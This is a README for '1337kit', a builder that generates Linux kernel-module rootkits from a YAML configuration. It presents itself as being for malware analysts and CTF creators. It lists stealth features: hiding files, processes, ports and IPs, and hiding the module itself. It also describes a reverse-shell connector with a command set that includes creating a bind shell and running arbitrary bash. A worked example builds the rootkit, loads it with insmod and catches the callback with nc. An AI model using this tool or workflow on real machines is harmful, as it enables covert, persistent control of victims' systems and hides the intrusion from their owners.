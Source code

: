 # 1337kit - LKM Rootkit Builder

![1337kit](images/1337kit.png)

## About project

1337kit is 64-bit LKM Rootkit builder based on yaml prescription

Fully tested on: Linux 5.11.0-34-generic 20.04.1-Ubuntu x86_64 x86_64 x86_64 GNU/Linux

### DISCLAIMER: FOR EDUCATIONAL AND INFORMATIONAL PURPOSES ONLY

This project is for malware analysts and for creator of CTF or cyber security exercises, with this builder you can build your custom rootkit for your exercise

**I do not take any responsibility for usage of this project**

### Features

* RevShell based connector
* Hiding dents (files, files prefixes, process id)
* Hiding connections based on Ports in TCP Connection
* Hiding connections based on IPv4 in TCP Connection
* Spawning scripts to user-space
* Hiding module from module list

## Usage

You have to create your yaml prescription for custom rootkit,
Example of full prescription (every option can be omitted):

```yaml
hideme: true
connector:
    ip: "127.0.0.1"
    port: "8080"
hide_dent: # Here you can put all your files, directories and process id you want to hide from user
    - "91746"
    - "1337test_"
hide_port:
    - "8080"
    - "1337"
hide_ip:
    - "127.0.0.1"
    - "8.8.8.8"
shells:
    - "sleep 1000"
```

After you create your yaml just run the builder.py

```sh
$ python3 builder.py --help
usage: builder.py [-h] [-c CONFIG] [-o [OBFUSCATE]]

Generate rootkit from yaml prescription

optional arguments:
  -h, --help            show this help message and exit
  -c CONFIG, --config CONFIG
                        Yaml prescription file
  -o [OBFUSCATE], --obfuscate [OBFUSCATE]
                        Enable rootkit symbols obfuscation

```

![builder](images/builder.png)

And rootkit will be created.

another way to execute your hiding or shell script is connector, if you enable your connector, rev-sell connection is created to your defined IP and Port, after this it will try open connection every x second. After connection is opened multiple commands can be send:

* HIDEME
* SHOWME
* HIDE_DENT
* SHOW_HIDDEN_DENT
* HIDE_PORT
* SHOW_HIDDEN_PORT
* HIDE_IP
* SHOW_HIDDEN_IP
* BINDSHELL_CREATE
* RUN_CUSTOM_BASH

## Future Features

* TCP IPv6 hiding
* UDP hiding
* builder name obfuscation (cuz now when you do strings you will see symbols like init_rootkit ect)

### Examples

```sh
$ python3 builder.py --config testfiles/config.yml
$ sudo insmod rootkit.ko
$ nc -lvnp 8080
 Listening on 0.0.0.0 8080
 Connection received on 127.0.0.1 39040
 RUN_CUSTOM_BASH sleep 1000
```

![example](images/example.jpeg)
